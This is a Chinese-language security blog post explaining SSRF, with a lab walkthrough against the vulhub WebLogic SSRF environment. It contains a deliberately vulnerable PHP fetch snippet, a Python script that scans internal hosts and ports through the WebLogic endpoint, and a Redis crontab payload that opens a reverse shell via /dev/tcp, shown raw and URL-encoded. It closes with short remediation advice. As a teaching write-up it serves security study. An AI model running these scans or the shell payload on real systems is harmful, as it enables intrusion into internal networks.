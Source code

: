```yaml
---
layout: post
title:  "Server Side Request Forgery (SSRF)"
date:   2019-01-21 20:15:33 +0700
categories: [Web安全]
---
```


SSRF（Server-Side-Request-Forgery，服务端请求伪造）是一种由攻击者构造请求，由服务端发起请求的安全漏洞。一般情况下，SSRF攻击的目标是外网无法访问的内部系统（因为请求由服务端发起的，所以服务端能请求到与自身相连而与外网隔离的内部系统）。

## 0x00 漏洞原理

SSRF 的形成原理大多是由于服务端提供了从其他服务器应用获取资源数据的功能但是没有对目标地址做过滤与限制。例如，黑客操作服务端从用户指定的URL，web应用可以获取图片，下载文件，读取文件内容等。如果这个功能被恶意利用，那么利用这个存在缺陷的Web应用作为代理攻击远程和本地的服务器，即当作跳板机，可作为`ssrfsocks`代理

攻击图示

![SSRF]({{}site.url}/images/SSRF.png)

## 0x01 SSRF能干些什么？

可以越过防火墙进行攻击，直接有服务器发起攻击，平常服务器所处的内网我们是访问不了的。

![Snipaste_2019-01-17_16-28-37]({{}site.url}/images/Snipaste_2019-01-17_16-28-37.png)

主要的攻击方式：

* 对外网、服务器所在的内网、本地进行端口扫描，获取一些服务的`banner` 信息
* 攻击运行所在的内网或本地应用程序
* 对内网web应用进行指纹识别，识别企业内部的资产信息
* 攻击内外网的web应用，主要使用HTTP、GET请求就可以实现的攻击（比如Struts2、SQLi）
* 利用file协议读取本地文件等。

![Snipaste_2019-01-17_19-18-05]({{}site.url}/images/Snipaste_2019-01-17_19-18-05.png)

## 0x03 漏洞利用

### 简单测试代码

常见的后端代码实现，使用curl获取数据。

```php
<?php
function curl($url){
	$ch = curl_init(); //初始化curl组件
	curl_setopt($ch, CURLOPT_URL, $url); 
	curl_setopt($ch, CURLOPT_HEADER,0);
	curl_exec($ch); //执行请求url
	curl_close($ch);
}
$url = $_GET['url'];
curl($url);

?>
```

该代码实现的功能是获取GET参数URL，然后将URL的内容返回到网页上。我们将请求参数`url`改为`http://www.baidu.com`，执行后可以看到以下页面

![Snipaste_2019-01-17_21-12-36]({{}site.url}/images/Snipaste_2019-01-17_21-12-36.png)

如果将参数`url`为内网地址，则会泄露内网信息，将`url`改为`192.168.0.103:3306`（服务器的地址）页面返回

![Snipaste_2019-01-17_21-14-53]({{}site.url}/images/Snipaste_2019-01-17_21-14-53.png)

读取本地文件

![Snipaste_2019-01-17_21-15-46]({{}site.url}/images/Snipaste_2019-01-17_21-15-46.png)

### Weblogic SSRF漏洞

参考：<http://blog.gdssecurity.com/labs/2015/3/30/weblogic-ssrf-and-xss-cve-2014-4241-cve-2014-4210-cve-2014-4.html>

使用镜像：https://github.com/vulhub/vulhub/tree/master/weblogic/ssrf

环境搭建：

```
docker-compose build
docker-compose up -d
```

运行完上面两条命令后，漏洞存在于`http://your-ip:7001/uddiexplorer/SearchPublicRegistries.jsp`，访问后可以看到![Snipaste_2019-01-17_21-42-11]({{}site.url}/images/Snipaste_2019-01-17_21-42-11.png)

现在来进行内网端口扫描，使用脚本

```python
# -*- coding: utf-8 -*- 

import re
import sys
import time
import thread
import requests
def scan(ip_str):
  ports = ('21','22','23','53','80','135','139','443','445','1080','1433','1521','3306','3389','4899','8080','6379','7001','8000',)
  for port in ports:
    exp_url = "http://192.168.244.170:7001/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://%s:%s"%(ip_str,port)
    try:
      response = requests.get(exp_url, timeout=15, verify=False)
      #SSRF判断
      re_sult1 = re.findall('weblogic.uddi.client.structures.exception.XML_SoapException',response.content)
      #丢失连接.端口连接不上
      re_sult2 = re.findall('but could not connect',response.content)
      if len(re_sult1)!=0 and len(re_sult2)==0:
        print ip_str+':'+port
    except Exception, e:
      pass
def find_ip(ip_prefix):
  '''
  给出当前的192.168.1 ，然后扫描整个段所有地址
  '''
  for i in range(1,256):
    ip = '%s.%s'%(ip_prefix,i)
    thread.start_new_thread(scan, (ip,))
    time.sleep(3)
    
if __name__ == "__main__":
  commandargs = sys.argv[1:]
  args = "".join(commandargs)
  ip_prefix = '.'.join(args.split('.')[:-1])
  find_ip(ip_prefix)
```

注意上面的`exp_url` 要修改为自己的服务器IP

![Snipaste_2019-01-17_21-45-25]({{}site.url}/images/Snipaste_2019-01-17_21-45-25.png)

`172.17.0.1`  是docker里面的地址，也就是内网地址

通过ssrf 探测到内网中redis服务器 ‘172.17.0.2:6379’正常访问

构造脚本写入 目录`‘/etc/crontab‘`

```
​```
set 1 "\n\n\n\n* * * * * root bash -i >& /dev/tcp/172.18.0.1/21 0>&1\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save
​```
```

进行`url`编码：

~~~url
```
test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.18.0.1%2F21%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa
```
~~~

最后反弹shell成功

## 0x04 漏洞挖掘

![1707150408d39c5b2dcf5e1a20]({{site.url}}/images/1707150408d39c5b2dcf5e1a20.jpg)

## 0x05 漏洞修复

* 限制请求的端口只能为web服务端口，只允许访问HTTP和HTTPS的请求
* 限制不能访问内网IP，以防止对内网进行攻击
* 屏蔽返回的详细信息

